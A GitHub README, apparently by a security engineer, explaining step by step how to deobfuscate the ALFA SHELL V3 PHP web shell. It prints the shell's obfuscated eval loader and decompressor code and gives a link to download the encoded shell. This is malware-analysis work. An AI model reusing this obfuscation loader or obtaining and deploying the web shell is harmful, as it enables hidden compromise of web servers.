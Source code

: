 # DeObfuscation ALFA SHELL V3

### How to decode ALFA SHELL V3?

1 - Download encode shell : http://getalfa.rf.gd/?i=1 <br />

2 - Open file `alfav3-encoded.php` we will see `$MuSoTSurZq='e'.'v'.'al'.'';`  <br />

![Image 1](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/1.png) <br />

### Start Stage 1

3 - Replace`$MuSoTSurZq='e'.'v'.'al'.'';` to `$MuSoTSurZq='echo';` <br /> 

![Image 2](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/2.png) <br />

4 - Now we should run `php alfav3-encoded.php > decode_stage_1.php` <br />


5 - Again encoded ALFA, We see intersting message :

``` /* You're killing me again 🎧 Am I still in your head ? 🎧 You used to light me up 🎧 Now you shut me down -- Solevisible */ ```

This message of music `Archive - Again ` Music video of youtube : https://www.youtube.com/watch?reload=9&v=NF52fcoIqg4

### Start Stage 2

6 -
```php
$阿尔法词=十六进制转换('666736736265687075726134636f5f746e646978');$函数存在=$阿尔法词{0}.$阿尔法词{8}.$阿尔法词{16}.$阿尔法词{12}.$阿尔法词{15}.$阿尔法词{18}.$阿尔法词{13}.$阿尔法词{16}.$阿尔法词{14}.$阿尔法词{5}.$阿尔法词{19}.$阿尔法词{18}.$阿尔法词{3}.$阿尔法词{15}.$阿尔法词{3};function 十六进制转换($十六进制){$串='';for($计数=0;$计数<strlen($十六进制);$计数+=2)$串.=chr(hexdec(substr($十六进制,$计数,2)));return $串;}function 编码器($串){return __ZGVjb2Rlcg($串);}function 随机($串){return ord($串);}function 内容($串){return @file_get_contents($串);}if(!$函数存在("阿尔法功能启动")){function 阿尔法功能启动($阿尔法变量的一个){$阿尔法变量的一个=编码器($阿尔法变量的一个);$阿尔法功能启动=0;$阿尔法两个变量=0;$阿尔法变三=0;$阿尔法四个变量=(随机($阿尔法变量的一个[1])<<8)+随机($阿尔法变量的一个[2]);$阿尔法五个变量=3;$阿尔法六个变量=0;$阿尔法七个变量=16;$阿尔法变八="";$阿尔法九变=strlen($阿尔法变量的一个);$阿尔法变量十=__FILE__;$阿尔法变量十=内容($阿尔法变量十);$阿尔法变量十一=0;preg_match(编码器("LyhwcmludHxzcHJpbnR8ZWNobykv"),$阿尔法变量十,$阿尔法变量十一);for(;$阿尔法五个变量<$阿尔法九变;){if(count($阿尔法变量十一)) exit;if($阿尔法七个变量==0){$阿尔法四个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法四个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++]);$阿尔法七个变量=16;}if($阿尔法四个变量&0x8000){$阿尔法功能启动=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<4);$阿尔法功能启动+=(随机($阿尔法变量的一个[$阿尔法五个变量])>>4);if($阿尔法功能启动){$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])&0x0F)+3;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变三++)$阿尔法变八[$阿尔法六个变量+$阿尔法变三]=$阿尔法变八[$阿尔法六个变量-$阿尔法功能启动+$阿尔法变三];$阿尔法六个变量+=$阿尔法两个变量;}else{$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法两个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++])+16;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变八[$阿尔法六个变量+$阿尔法变三++]=$阿尔法变量的一个[$阿尔法五个变量]);$阿尔法五个变量++;$阿尔法六个变量+=$阿尔法两个变量;}}else $阿尔法变八[$阿尔法六个变量++]=$阿尔法变量的一个[$阿尔法五个变量++];$阿尔法四个变量<<=1;$阿尔法七个变量--;if($阿尔法五个变量==$阿尔法九变){$阿尔法变量十=implode("",$阿尔法变八);$阿尔法变量十="?".">".$阿尔法变量十;return $阿尔法变量十;}}}
}
print_r(阿尔法功能启动(""));
eval(阿尔法功能启动("QAAAPD9waH .... "));
```
I change code of stage 2 of chines language `decode_stage_2.php`: 

```php

<?php

$txjCEtOsnV='f'.'u'.'nc'.'t'.'io'.'n'.'_'.'exist'.'s';
$AiFWszqQIS='cha'.'r'.'Cod'.'eAt';$XBHjjUIPPF='echo';
$HchfyPfIrM='gzinfl'.'ate';if(!$txjCEtOsnV('b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'')){function VVjQyGUShF($data){if(empty($data))return;$b64='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';$o1 = $o2 = $o3 = $h1 = $h2 = $h3 = $h4 = $bits = $i = 0;$ac = 0;$enc = '';$tmp_arr = array();if(!$data){return $data;}do{$o1 = $AiFWszqQIS($data, $i++);$o2 = $AiFWszqQIS($data, $i++);$o3 = $AiFWszqQIS($data, $i++);$bits = $o1 << 16 | $o2 << 8 | $o3;$h1 = $bits >> 18 & 0x3f;$h2 = $bits >> 12 & 0x3f;$h3 = $bits >> 6 & 0x3f;$h4 = $bits & 0x3f;$tmp_arr[$ac++] = charAt($b64, $h1).charAt($b64, $h2).charAt($b64, $h3).charAt($b64, $h4);} while ($i < strlen($data));$enc = implode($tmp_arr, '');$r = (strlen($data) % 3);return ($r ? substr($enc, 0, ($r - 3)) : $enc).substr('===', ($r || 3));}function charCodeAt($data, $char){ return ord(substr($data, $char, 1));}function charAt($data, $char){return substr($data, $char, 1);}}else{function VVjQyGUShF($s){$b='b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'';return $b($s);}}if(!$txjCEtOsnV('ba'.'se6'.'4_d'.'e'.'c'.'ode')){function prGVlydQcW($input){if(empty($input))return;$keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";$i = 0;$output = "";$input = preg_replace("[^A-Za-z0-9\+\/\=]", "", $input);do{$enc1 = strpos($keyStr, substr($input, $i++, 1));$enc2 = strpos($keyStr, substr($input, $i++, 1));$enc3 = strpos($keyStr, substr($input, $i++, 1));$enc4 = strpos($keyStr, substr($input, $i++, 1));$chr1 = ($enc1 << 2) | ($enc2 >> 4);$chr2 = (($enc2 & 15) << 4) | ($enc3 >> 2);$chr3 = (($enc3 & 3) << 6) | $enc4;$output = $output . chr((int) $chr1);if ($enc3 != 64) {$output = $output . chr((int) $chr2);}if ($enc4 != 64) {$output = $output . chr((int) $chr3);}$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";}while($i < strlen($input));return $output;}}else{function prGVlydQcW($s){$b='ba'.'se6'.'4_d'.'e'.'c'.'ode';return $b($s);}}$lOUhvmLHrl='c'.'reat'.'e'.'_'.'funct'.'i'.'on';$BLKLPTRwbV = $lOUhvmLHrl('$lY',$XBHjjUIPPF.'('.$HchfyPfIrM.'('.'pr'.'G'.'V'.'lyd'.'Q'.'c'.'W'.'($lY)'.')'.')'.';');


$keys=func_1('666736736265687075726134636f5f746e646978');

$split_keys=$keys{0}.$keys{8}.$keys{16}.$keys{12}.$keys{15}.$keys{18}.$keys{13}.$keys{16}.$keys{14}.$keys{5}.$keys{19}.$keys{18}.$keys{3}.$keys{15}.$keys{3};
function func_1($arg_1){
    $串='';
    for($i=0;$i<strlen($arg_1);$i+=2)
    $串.=chr(hexdec(substr($arg_1,$i,2)));
    return $串;
}

function __ZGVjb2Rlcg($s)
{
    return prGVlydQcW($s);
}

function func_2($串){
        return __ZGVjb2Rlcg($串);
}
function func_3_ord($串){
        return ord($串);
}
function func_4($串){
        return @file_get_contents($串);
}

if(!$split_keys("func_5")) {
        $func_5_arg = "";
            $func_5_arg=func_2($func_5_arg);
            $func_5=0;
            $counter=0;
            $Counter_5=0;
            $var_2=(func_3_ord($func_5_arg[1])<<8)+func_3_ord($func_5_arg[2]);
            $Counter_2=3;
            $Counter_3=0;
            $Counter_4=16;
            $ret_str="";
            $get_length_arg=strlen($func_5_arg);
            $get_files=__FILE__;
            $get_files=func_4($get_files);
            $get_files一=0;
            preg_match(func_2("LyhwcmludHxzcHJpbnR8ZWNobykv"),$get_files,$get_files一);

            for(;$Counter_2<$get_length_arg;){
         
                if($Counter_4==0){
                    $var_2=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                    $var_2+=func_3_ord($func_5_arg[$Counter_2++]);
                    $Counter_4=16;
                }
                if($var_2&0x8000){
                    $func_5 = (func_3_ord($func_5_arg[$Counter_2++])<<4);
                    $func_5 += (func_3_ord($func_5_arg[$Counter_2])>>4);
                    if($func_5){
                        $counter=(func_3_ord($func_5_arg[$Counter_2++])&0x0F)+3;
                        for($Counter_5=0;$Counter_5<$counter;$Counter_5++)
                            $ret_str[$Counter_3+$Counter_5] = $ret_str[$Counter_3-$func_5+$Counter_5];
                            $Counter_3+=$counter;
                        }
                        else{
                            $counter=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                            $counter+=func_3_ord($func_5_arg[$Counter_2++])+16;
                            for($Counter_5=0;$Counter_5<$counter;
                            $ret_str[$Counter_3+$Counter_5++]=$func_5_arg[$Counter_2]);
                            $Counter_2++;
                            $Counter_3+=$counter;
                        }
                    }
                    else
                    $ret_str[$Counter_3++]=$func_5_arg[$Counter_2++];
                    $var_2<<=1;
                    $Counter_4--;
                    if($Counter_2==$get_length_arg){
                        echo $ret_str;
                    }
        }
}

```

7 - Again we run `php decode_stage_2.php > final_alfashell.php` seccessfully decode ALFA SHELL :),

###  Decode ALFA SHELL V3:

![Image 3](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/3.png)

Thanks, <br />
Ramin - kernel security engineering 
